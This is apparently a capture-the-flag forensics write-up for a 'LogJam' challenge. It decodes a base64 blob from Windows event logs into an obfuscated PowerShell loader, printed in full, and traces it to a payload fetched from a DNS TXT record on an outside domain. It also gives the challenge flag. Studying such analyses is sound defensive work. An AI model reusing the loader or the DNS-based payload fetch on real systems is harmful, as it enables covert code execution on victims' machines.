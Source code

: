## LogJam

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/cde20ec8-75ff-4606-8a98-1fb63e7abf3a)

## Solution

For this challenge, we get a couple EventViewer logs and a shortcut:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a8f09c5c-3c3b-480c-970b-60bbd3a16e43)

I converted the Application.evtx to an XML so that I can read it more easily:  

```bash
sudo apt instal python3-evtx
evtx_dump.py Application.evtx > Application.xml
```

In it we find a large Base64 blob:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/57ac94b3-a563-4d4a-b60c-bc66791d7aa1)

After base64 decoding it twice, we get an obfuscated powershell script:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a270a283-6927-45b5-a9fd-2e7c381f3698)

I'm pretty used to reading backwards so I can easily tell this is using Invoke-Expression to run the powershell:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e23c2882-4aac-4371-a921-ea1f0ba21d7f)

So I replace it with an `echo` written backwards:  

```powershell
 $u7fInY =  [ChAr[]]")''nIOj-]2,11,3[eman.)'*Rdm*' elBAirav-TEg(( & |)93]rAhC[]gNIRTS[,)201]rAhC[+17]rAhC[+68]rAhC[((EcALper.)') (DnEOTdAEr.))iicsa::]gNIdoCNe.TxEt.mETSy'+'s[ , )'+')SsERpMocED::]eDOMNoISSerpMoC.NoIsSERpMOc.OI.metSYs'+'[ ,)'+'fGV=8w+2IX2i/'+'/Px+D1LdDdvgDHx0Da4rfSsissVDjqZXrXd'+'HwwgIMdd+b+'+'I2j3r4jNeKTYFX+H++mnP4L0u3sNsvJHmeAOLH88T030M0luhBzBIGCuwoZX7yZRbnbg7a174PITGc5Xlip/D/z6U5VZ7nO/APBWvIZYNhddwKDsG8A76A7fMef8'+'O6vMfncgC'+'i9gHHfQvjxq+y8Jibd+F+TdgqtK4HCOVjZg78/6RRhjg1A0YH4JIefd/ELkohlDo5GUdwKfiuZIDNFSfsr8Es9Z/T2gyyfY5K59mZ0WF/1ml58psO1MvbfWNxoNhpmDHyan05Am2y4XQm//iSEFVfHZE/Of8jPgvEPIfJ+ZwmLGNeVCUB3hMKc5n7cP713kzRx/a39WSVYB/eBqlcdk2QOQU30/PDdp9Yi3U3QRh8wg+eZu/T2XcjtA'+'3GZQ3AVQTpO6Zr2kvCRgKgVTrN7PANZe/RDBc+V8'+'EjJZgKCETT7pFpgWzmaCxrwq82DXSNNZ/FRZM'+'qDiCq2BulaQdboWAoa'+'H'+'n0EU9UD6QhrFOQRuu1yhr3lTRPcr5sjY428n3s/t5654O/iFOrvgegJUQFKfZ7RuYAQR1BPRah/TkpwdQwP7Z'+'D5HQ3rE'+'Gx'+'/KAZNGHAU9KCJBiglGYLkiq1xTF/iLXu0+kCybeHaht2u/syq0zKjeMn5vOIbvy+6mrt7/8qlTcm1'+'2CK1tomnNAb+cX6slpda2cm/tkFZfVajP/QGBalShL+o8ue/TBDiD9a+Nkx/V26O7cjU5Zx+9HW2'+'ie3y'+'FSiXK6C8TtKxk'+'T4E9fMU'+'KJgINRh32uWVr'+'JX'+'Lhyi2PAIkQJCiN1WUEqAFe/uljU8JPr4JbIqfDigSdZRClCUCfpHCrhUZY'+'4hy4ESnjVAtifBUTb/cgjdQmu/jWin+B2Wb54'+'PMHg8Oys'+'qv+'+'/Xbsn'+'67Hi5E3HcGbT78ftpLhAhuWQ7I0eCVg5pGNwVsJeiDejH/vXdKhUUdJcKbLa/Yx8mMFRqW5Wp1QhzszU2XlUqM7npZVGzssm55b4c2B5IB'+'QRZXnOiEzv/r5inQulI3WaFL0iX'+'Ij2JQ7cxOS1PXdLOEViOIqKYo93AXID8PQ+2PE4'+'s'+'9bpRVffGV (G'+'N'+'I'+'Rts46esa'+'BMOrF::]TrevNoC[]MAERTsYrOmeM.Oi'+'.meTsys[(mAErtseTALFed.nO'+'ISsErPmOc.oi.mETSy'+'s  tcEjBO-weN ( (REdAerMaeRtS.oi.meTsy'+'S  tcEjBO-weN ( ohce'("; [arRaY]::reverSe( (  VArIABle ('U7'+'fINY') -vA) );.( $VerbOSeprEfERencE.tOSTRing()[1,3]+'x'-JoiN'')( -JoIN(  VArIABle ('U7'+'fINY') -vA) )
```

I then run it in powershell and it unravels itself showing me the second stage.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6d61f99e-2b85-4bf1-9460-17bdd885183d)

We use [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Decimal('Comma',false)&input=NDAsODIsMTAxLDExNSwxMTEsMTA4LDExOCwxMDEsNDUsNjgsMTEwLDExNSw3OCw5NywxMDksMTAxLDMyLDM0LDk3LDExMiwxMTIsMTA4LDEwNSw5OSw5NywxMTYsMTA1LDExMSwxMTAsNDYsMTAxLDExOCwxMTYsMTIwLDQ2LDEyMiwxMDUsMTEyLDM0LDMyLDQ1LDg0LDEyMSwxMTIsMTAxLDMyLDExNiwxMjAsMTE2) to convert the decimal back to ASCII:

```text
40,82,101,115,111,108,118,101,45,68,110,115,78,97,109,101,32,34,97,112,112,108,105,99,97,116,105,111,110,46,101,118,116,120,46,122,105,112,34,32,45,84,121,112,101,32,116,120,116
```
We can tell that it is taking a payload from a DNS TXT record from a .zip domain... sneaky:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a8381344-7a39-47f6-b6c3-abba4305474d)

So we do the same to see what that record is:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/da82ed10-628f-4edc-a9ed-eb823cc1c7cf)

Luckily it's still live and it pops calc, but also has a comment with a base64 string:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5c398089-4e50-4dd7-8c9e-30c991bc8539)

Which is our flag:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/04d2e451-a612-4fa9-b728-4b8e3b083785)

`flag{ca8c288d1395689577287ba3bf2649ad}`

